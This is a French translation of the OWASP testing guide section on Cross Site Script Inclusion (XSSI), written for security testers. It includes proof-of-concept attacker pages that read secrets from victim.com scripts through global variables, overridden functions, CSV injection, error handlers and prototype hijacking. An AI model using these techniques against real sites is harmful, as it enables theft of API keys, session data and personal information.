

# Test de l'inclusion de scripts intersites

|ID |
|------------|
|WSTG-CLNT-13|

## Sommaire

La vulnérabilité Cross Site Script Inclusion (XSSI) permet une fuite de données sensibles à travers les frontières d'origine ou entre domaines. Les données sensibles peuvent inclure des données liées à l'authentification (états de connexion, cookies, jetons d'authentification, identifiants de session, etc.) ou des données personnelles ou sensibles de l'utilisateur (adresses e-mail, numéros de téléphone, détails de carte de crédit, numéros de sécurité sociale, etc.). XSSI est une attaque côté client similaire à Cross Site Request Forgery (CSRF) mais a un objectif différent. Là où CSRF utilise le contexte de l'utilisateur authentifié pour exécuter certaines actions de changement d'état à l'intérieur de la page d'une victime (par exemple, transférer de l'argent sur le compte de l'attaquant, modifier les privilèges, réinitialiser le mot de passe, etc.), XSSI utilise à la place JavaScript côté client pour divulguer des données sensibles. à partir de sessions authentifiées.

Par défaut, les sites Web ne sont autorisés à accéder aux données que s'ils proviennent de la même origine. Il s'agit d'un principe clé de sécurité des applications et régi par la politique de même origine (définie par [RFC 6454](https://tools.ietf.org/html/rfc6454)). Une origine est définie comme la combinaison d'un schéma d'URI (HTTP ou HTTPS), d'un nom d'hôte et d'un numéro de port. Cependant, cette règle ne s'applique pas aux inclusions de balises HTML `<script>`. Cette exception est nécessaire, car sans elle, les sites Web ne pourraient pas consommer de services tiers, effectuer des analyses de trafic, utiliser des plateformes publicitaires, etc.

Lorsque le navigateur ouvre un site Web avec des balises `<script>`, les ressources sont extraites du domaine d'origine croisée. Les ressources s'exécutent alors dans le même contexte que le site ou le navigateur inclus, ce qui présente la possibilité de divulguer des données sensibles. Dans la plupart des cas, cela est réalisé en utilisant JavaScript, cependant, la source du script n'a pas besoin d'être un fichier JavaScript avec le type `text/javascript` ou l'extension `.js`.

Les vulnérabilités des anciens navigateurs (IE9/10) permettaient des fuites de données via des messages d'erreur JavaScript lors de l'exécution, mais ces vulnérabilités ont maintenant été corrigées par les fournisseurs et sont considérées comme moins pertinentes. En définissant l'attribut charset de la balise `<script>`, un attaquant ou un testeur peut appliquer le codage UTF-16, permettant une fuite de données pour d'autres formats de données (par exemple JSON) dans certains cas. Pour en savoir plus sur ces attaques, consultez [Attaques XSSI basées sur l'identifiant](https://www.mbsd.jp/Whitepaper/xssi.pdf).

## Objectifs des tests

- Localisez les données sensibles à travers le système.
- Évaluer la fuite de données sensibles à travers diverses techniques.

## Comment tester

### Collecter des données à l'aide de sessions utilisateur authentifiées et non authentifiées

Identifiez les terminaux responsables de l'envoi des données sensibles, les paramètres requis et identifiez toutes les réponses JavaScript pertinentes générées dynamiquement et statiquement à l'aide de sessions utilisateur authentifiées. Portez une attention particulière aux données sensibles envoyées à l'aide de [JSONP](https://en.wikipedia.org/wiki/JSONP). Pour trouver des réponses JavaScript générées dynamiquement, générez des requêtes authentifiées et non authentifiées, puis comparez-les. S'ils sont différents, cela signifie que la réponse est dynamique ; sinon c'est statique. Pour simplifier cette tâche, un outil tel que [plug-in proxy Burp de Veit Hailperin](https://github.com/luh2/DetectDynamicJS) peut être utilisé. Assurez-vous de vérifier d'autres types de fichiers en plus de JavaScript ; XSSI n'est pas limité aux seuls fichiers JavaScript.

### Déterminer si les données sensibles peuvent être divulguées à l'aide de JavaScript

Les testeurs doivent analyser le code des véhicules suivants pour détecter les fuites de données via les vulnérabilités XSSI :

1. Variables globales
2. Paramètres de fonction globaux
3. CSV (Comma Separated Values) avec vol de citations
4. Erreurs d'exécution JavaScript
5. Chaînage de prototypes en utilisant `this`

### 1. Fuite de données sensibles via des variables globales

Une clé API est stockée dans un fichier JavaScript avec l'URI `https://victim.com/internal/api.js` sur le site Web de la victime, `victim.com`, qui n'est accessible qu'aux utilisateurs authentifiés. Un attaquant configure un site Web, `attackingwebsite.com`, et utilise la balise `<script>` pour faire référence au fichier JavaScript.

Voici le contenu de `https://victim.com/internal/api.js` :

```javascript
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

Le site d'attaque, `attackingwebsite.com`, a un `index.html` avec le code suivant :

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```

Dans cet exemple, une victime est authentifiée avec `victim.com`. Un attaquant attire la victime vers "attackingwebsite.com" via l'ingénierie sociale, des e-mails de phishing, etc. Le navigateur de la victime récupère ensuite "api.js", ce qui entraîne la fuite des données sensibles via la variable JavaScript globale et leur affichage à l'aide de "innerHTML".

### 2. Fuite de données sensibles via les paramètres de fonction globaux

Cet exemple est similaire au précédent, sauf que dans ce cas, `attackingwebsite.com` utilise une fonction JavaScript globale pour extraire les données sensibles en écrasant la fonction JavaScript globale de la victime.

Voici le contenu de `https://victim.com/internal/api.js` :

```javascript
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

Le site d'attaque, `attackingwebsite.com`, a un `index.html` avec le code suivant :

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

Il existe d'autres vulnérabilités XSSI qui peuvent entraîner des fuites de données sensibles via des chaînes de prototypes JavaScript ou des appels de fonctions globales. Pour en savoir plus sur ces attaques, consultez [Les dangers inattendus du JavaScript dynamique](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf).

### 3. Fuite de données sensibles via CSV avec vol de devis

Pour divulguer des données, l'attaquant/testeur doit pouvoir injecter du code JavaScript dans les données CSV. L'exemple de code suivant est un extrait du livre blanc [Identifier based XSSI attack](https://www.mbsd.jp/Whitepaper/xssi.pdf) de Takeshi Terada.

```text
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.exemple","03-0000-0001"
2,"foo","bbb@b.exemple","03-0000-0002"
...
98,"bar","yyy@exemple.net","03-0000-0088"
99,"___","zzz@exemple.com","03-0000-0099"
```

Dans cet exemple, l'utilisation des colonnes `____` comme points d'injection et l'insertion de chaînes JavaScript à leur place donne le résultat suivant.

```text
1,"\"",$$$=function(){/*","aaa@a.exemple","03-0000-0001"
2,"foo","bbb@b.exemple","03-0000-0002"
...
98,"bar","yyy@exemple.net","03-0000-0088"
99,"*/}//","zzz@exemple.com","03-0000-0099"
```

[Jeremiah Grossman a écrit sur une vulnérabilité similaire dans Gmail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html) en 2006 qui permettait l'extraction des contacts des utilisateurs dans JSON. Dans ce cas, les données ont été reçues de Gmail et analysées par le moteur JavaScript du navigateur à l'aide d'un constructeur Array non référencé pour divulguer les données. Un attaquant pourrait accéder à ce Array avec les données sensibles en définissant et en écrasant le constructeur Array interne comme ceci :

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

### 4. Fuite de données sensibles via des erreurs d'exécution JavaScript

Les navigateurs présentent normalement des [messages d'erreur JavaScript] normalisés (https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Errors). Cependant, dans le cas d'IE9/10, les messages d'erreur d'exécution ont fourni des détails supplémentaires qui pourraient être utilisés pour divulguer des données. Par exemple, un site Web "victim.com" diffuse le contenu suivant à l'URI "http://victim.com/service/csvendpoint" pour les utilisateurs authentifiés :

```text
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

Cette vulnérabilité pourrait être exploitée avec les éléments suivants :

```html
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```

Lorsque le navigateur essaie de restituer le contenu CSV en JavaScript, il échoue et perd les données sensibles :

\
*Figure 4.11.13-1 : Message d'erreur d'exécution JavaScript*

### 5. Fuite de données sensibles via le chaînage de prototypes à l'aide de `this`

En JavaScript, le mot-clé `this` est défini dynamiquement. Cela signifie que si une fonction est appelée sur un objet, "this" pointera vers cet objet même si la fonction appelée n'appartient pas à l'objet lui-même. Ce comportement peut être utilisé pour divulguer des données. Dans l'exemple suivant de la [page de démonstration de Sebastian Leike](http://sebastian-lekies.de/leak/), les données sensibles sont stockées dans un Array. Un attaquant peut remplacer `Array.prototype.forEach` par une fonction contrôlée par l'attaquant. Si du code appelle la fonction `forEach` sur une instance de tableau contenant des valeurs sensibles, la fonction contrôlée par l'attaquant sera invoquée avec `this` pointant vers l'objet contenant les données sensibles.

Voici un extrait d'un fichier JavaScript contenant des données sensibles, `javascript.js` :

```javascript
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

Les données sensibles peuvent être divulguées avec le code JavaScript suivant :

```html
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
